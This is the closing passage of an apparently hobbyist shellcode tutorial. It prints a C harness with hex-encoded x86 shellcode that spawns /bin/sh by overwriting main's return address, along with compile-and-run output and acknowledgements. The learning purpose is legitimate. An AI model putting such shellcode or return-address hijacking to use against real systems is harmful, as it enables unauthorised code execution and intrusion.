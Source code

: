     #include 
    #include 
    /*working shellcode */
    char shellcode[] = "\xeb\x0e\x5e\x31\xc0\x88\x46\x07\x50\x50\x56\xb0\x3b"
    "\x50\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
    int main()
    {
    int *ret;
    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;
    }

Compile it:

    bash$ gcc -o shell shell.c
    bash$ ./shell
    $

It worked! We have made shellcode that spawns a shell. That took awhile to get to and while this is certainly not the end to what you can do with shell code, it should give you the confidence to read the other, more thorough, tutorials out there and begin messing with shellcode on your own. 

Special thanks to mardukk/push[eax] and int16h for their assistance on the more technical aspects that I was unsure of and to PrincesSoha for taking the time to edit and format my work far better than I could.
